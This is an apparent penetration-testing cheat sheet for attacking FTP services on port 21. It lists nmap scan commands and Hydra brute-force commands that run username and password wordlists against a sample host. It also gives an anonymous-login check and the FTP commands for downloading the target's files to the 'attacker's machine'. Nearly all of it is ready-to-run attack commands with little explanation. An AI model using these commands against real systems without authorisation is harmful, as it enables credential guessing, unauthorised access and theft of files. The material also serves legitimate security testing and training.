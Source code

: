 
**Default Port:** 21

nmap -sC -p 21 IP/CIDR 
nmap -sC -sV -p 21 -v IP/CIDR 
nmap --script ftp* -p 21 -vvv IP/CIDR 

Connecting to a FTP Target
Example: ftp + ip (User and Password)

Brute Force FTP Target using Hydra
Example: hydra IP -L "Usernames Wordlist" -P "Passwords Wordlist"
Practical Example with lists:
hydra IP -L "/usr/share/wordlists/users.txt" -P "/usr/share/wordlists/passwords.txt" 192.168.1.10 ftp -V

Practical Example with user:
hydra -l test -P "/usr/share/wordlists/passwords.txt" 192.168.1.10 ftp -V


Copy all results to a file new file because we probably need this in the future

Command to list files after login to FTP: ls

Command to download files after login to FTP: get "file name"
File will be downloaded into current attacker's machine directory

#######################################

Anonymous check
ftp ftp://anonymous:anonymous@IP ADDRESS

#######################################

